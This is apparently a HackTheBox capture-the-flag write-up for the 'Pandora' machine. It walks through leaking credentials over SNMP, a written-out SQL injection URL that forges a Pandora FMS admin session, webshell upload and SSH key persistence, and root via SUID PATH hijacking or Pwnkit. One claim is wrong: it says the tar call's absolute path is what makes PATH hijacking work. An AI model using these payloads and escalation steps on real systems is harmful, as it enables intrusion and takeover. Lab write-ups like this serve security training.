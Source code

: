 ```yaml
---
title: Pandora
date: 2022-04-23
categories: [HackTheBox, Easy]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```

    
![](https://i.imgur.com/gUDqBgn.png)

Pandora is the first box I have ran into that requires a UDP scan to move forward rather than a standard TCP one. This box features finding plaintext creds through snmpwalk, spoofing an admin session from info we found in a mysql database, and abusing path injection to fully compromise the machine.

## Recon

`nmap -sV 10.10.11.136`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-22 05:03 EDT
Nmap scan report for 10.10.11.136
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds
```

![](https://i.imgur.com/NgrYOER.png)
    
![](https://i.imgur.com/3PlKs8P.png)
    
![](https://i.imgur.com/RQvJFH3.png)


Its a static website, don't even bother with it. Gobuster dir and vhosts don't return anything. The contact form on the website does not lead anywhere, its just there for show. Nikto also does not yeild any results. Revisit the drawing board.

We can try a UDP scan instead.

> UDP scans are very slow so we specify a high min rate.
{: .prompt-tip }

`nmap -sU 10.10.11.136 --min-rate 2000`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-23 00:47 EDT
Nmap scan report for pandora.htb (10.10.11.136)
Host is up (0.14s latency).
Not shown: 992 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
3/udp     closed compressnet
161/udp   open   snmp
17006/udp closed unknown
17146/udp closed unknown
22105/udp closed unknown
33744/udp closed unknown
49214/udp closed unknown
58002/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 2.85 seconds
```
Well this is a new attack vector that I had no idea about, let's check out SNMP.

`snmpwalk -v1 -c public 10.10.11.136`
```
iso.3.6.1.2.1.25.4.2.1.5.907 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.980 = ""
iso.3.6.1.2.1.25.4.2.1.5.1117 = STRING: "-u daniel -p HotelBabylon23"
iso.3.6.1.2.1.25.4.2.1.5.5464 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.6262 = STRING: "-k start"
```
Plain text creds can be seen from an snmpwalk

`nmap -sU -sVC -p 161  10.10.11.136`
```
[...]
|   1117: 
|     Name: host_check
|     Path: /usr/bin/host_check
|     Params: -u daniel -p HotelBabylon23
```
Another way of seeing the creds is by using a script scan against port 161.

Now using the plain text creds we can ssh into daniel.

`ssh daniel@pandora.htb `
```                
The authenticity of host 'pandora.htb (10.10.11.136)' can't be established.
ED25519 key fingerprint is SHA256:yDtxiXxKzUipXy+nLREcsfpv/fRomqveZjm6PXq9+BY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'pandora.htb' (ED25519) to the list of known hosts.
daniel@pandora.htb's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 23 Apr 05:35:13 UTC 2022

  System load:  0.0               Processes:             237
  Usage of /:   66.1% of 4.87GB   Users logged in:       1
  Memory usage: 20%               IPv4 address for eth0: 10.10.11.136
  Swap usage:   0%

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Apr 23 05:24:41 2022 from 10.10.14.11
daniel@pandora:~$ 
```

Shell obtained :)

## User
After running linpeas, we find that we can run nmap on ourselves. Doing this we can find out our own open ports.

```console
daniel@pandora:~$ nmap localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-23 19:53 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Other addresses for localhost (not scanned): ::1
rDNS record for 127.0.0.1: localhost.localdomain
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
daniel@pandora:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    
tcp6       0      0 :::80                   :::*                    LISTEN      -                    
tcp6       0      0 :::22                   :::*                    LISTEN      -                    
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                    
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                    
udp6       0      0 ::1:161                 :::*                                -  
```

Locate the locally hosted webserver from the apach configs/webroot. Dump the sql tables.

> Noteabley the user sessions since the passwords arent crackable
{: .prompt-tip }

We have an admin user so we can log in using their session by generating a cookie.
```
http://localhost/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20endof%20%20--%20endof
```
From here we can upload a reverse shell since we have file upload and then hit it. These webshells are generally pretty janky so what we can do it force create a ssh key and grab the private key so that we can login. The commands to do so:
`ssh-keygen`
`cat id_rsa.pub > authorized_keys`
`chmod 600 authorized_keys`

## Root
The web user can run this custom SUID found from `find / -perm -4000 2>/dev/null`. /usr/bin/pandora_backup is the exploitable binary. Viewing it with strings we see that the tar command is specified with an absolute path. This is vulnerable to path injection. Just run `export PATH=/my/path:$PATH`

From there we create our malicious tar with the contents
```
#!/bin/bash
chmod 7777 /bin/bash
```
This creates bash as an SUID as root. Run `bash -p` to gain the root shell. Pwnded :)

### Pwnkit
Running linpeas shows you
```
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                 
```
This CVE is pwnkit and running it should get you instant root.

```
daniel@pandora:~$ ./Pwnkit
root@pandora:
```

```
root@pandora:/home/daniel# ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Dec  7 14:32 .
drwxr-xr-x 18 root   root   4096 Dec  7 14:32 ..
drwxr-xr-x  7 daniel daniel 4096 Apr 23 05:53 daniel
drwxr-xr-x  3 matt   matt   4096 Apr 22 18:21 matt
root@pandora:/home/daniel# cat /home/matt/user.txt
7e328d9b93d565137e31e20fd9fce3ba
```
Now we grab the user flag and we are done
